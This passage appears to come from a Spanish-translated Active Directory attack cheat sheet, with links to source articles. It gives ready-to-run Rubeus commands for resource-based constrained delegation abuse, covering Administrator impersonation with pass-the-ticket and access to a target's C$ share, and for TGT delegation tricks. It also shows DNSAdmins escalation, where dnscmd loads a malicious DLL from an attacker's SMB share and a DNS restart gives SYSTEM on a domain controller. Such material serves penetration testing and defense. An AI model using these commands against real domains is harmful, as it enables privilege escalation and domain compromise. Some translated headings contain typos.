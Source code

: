 ```powershell
Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:Administrator /msdsspn:cifs/TargetMachine.wtver.domain /domain:wtver.domain /ptt

#Finalmente, podemos acceder a la unidad C$ del equipo objetivo:
dir \\TargetMachine.wtver.domain\C$
```

Artículos detallados:

- [Wagging the Dog: Abusar de la delegación restringida basada en recursos para atacar Active Directory](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
- [DELEGACIÓN RESTRINADA BASADA EN RECURSOS ABUSO](https://blog.stealthbits.com/resource-based-constrained-delegation-abuse/)

En la Delegación Restringida Basada en Recursos y Restricción, si no tenemos la contraseña/hash de la cuenta con TRUSTED_TO_AUTH_FOR_DELEGATION que intentamos abusar, podemos usar el ingenioso truco "tgt::deleg" de kekeo o "tgtdeleg" de rubeus y engañar a Kerberos para que nos proporcione un TGT válido para esa cuenta. Luego, simplemente usamos el ticket en lugar del hash de la cuenta para realizar el ataque.

```powershell
#Comando en Rubeus
Rubeus.exe tgtdeleg /nowrap
```

Artículo detallado:
[Rubeus – Ahora con más Kekeo](https://www.harmj0y.net/blog/redteaming/rubeus-now-with-more-kekeo/)

### Abuso de DNSAdmins

_¿QUÉ ES DIS?: Si un usuario es miembro del grupo DNSAdmins, podría cargar una DLL arbitraria con los privilegios de dns.exe que se ejecuta como SYSTEM. Si el controlador de dominio sirve un DNS, el usuario puede escalar sus privilegios a DA. Este proceso de explotación requiere privilegios para reiniciar el servicio DNS y funcionar._

1. Enumere los miembros del grupo DNSAdmins:
- PowerView: `Get-NetGroupMember -GroupName "DNSAdmins"`
- Módulo AD: `Get-ADGroupMember -Identiny DNSAdmins`
2. Una vez encontrado un miembro de este grupo, debemos comprometerlo (hay varias maneras). 3. Luego, al servir una DLL maliciosa en un recurso compartido SMB y configurar su uso, podemos escalar nuestros privilegios:

```powershell
#Usando dnscmd:
dnscmd <NameOfDNSMAchine> /config /serverlevelplugindll \\Path\To\Our\Dll\malicious.dll

#Reiniciar el servicio DNS:
sc \\DNSServer stop dns
sc \\DNSServer start dns
```

### Abuso de DNS integrado en Active Directory

- [Explotación de DNS integrado en Active Directory](https://blog.netspi.com/exploiting-adidns/)
- [ADIDNS revisitado](https://blog.netspi.com/adidns-revisited/)
- [Inveigh](https://github.com/Kevin-Robertson/Inveigh)
